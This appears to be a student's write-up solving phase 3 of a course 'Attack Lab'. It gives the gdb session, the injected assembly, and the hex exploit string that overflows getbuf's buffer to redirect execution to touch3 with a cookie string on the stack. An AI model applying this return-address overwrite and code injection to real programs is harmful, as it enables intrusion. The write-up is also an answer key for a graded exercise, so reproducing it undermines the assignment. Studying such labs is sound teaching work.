 ```yaml
---
title: "Attack Lab: Phase 3"
categories:
  - "Course Work"
  - "Computer Organization and Architecture"
tags:
  - "Attack Lab"
---
```


###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) info registers rsp
rsp            0x55668cc0       0x55668cc0
```

###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401c78 <touch3>:
...
```

###### Write File `phase-3-inject.s`

```assembly
movq $0x55668cc8, %rdi
pushq $0x0000000000401c78
ret
```

###### Run

```bash
gcc -c phase-3-inject.s
objdump --disassemble phase-3-inject.o > phase-3-inject.asm
```

###### Read File `phase-3-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	48 c7 c7 c8 8c 66 55 	mov    $0x55668cc8,%rdi
   7:	68 78 1c 40 00       	pushq  $0x401c78
   c:	c3                   	retq
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Convert Cookie to String

The string should end with a `\0`.

```
33 61 39 61 36 63 32 66 00
```

###### Write File `phase-3.txt`

Place the string in the parent frame of `getbuf`, that is, `test` stack frames.

```
48 c7 c7 c8 8c 66 55
68 78 1c 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
33 61 39 61 36 63 32 66 00
```

###### Run

```bash
./hex2raw < phase-3.txt > phase-3.in
./ctarget -i phase-3.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch3!: You called touch3("3a9a6c2f")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
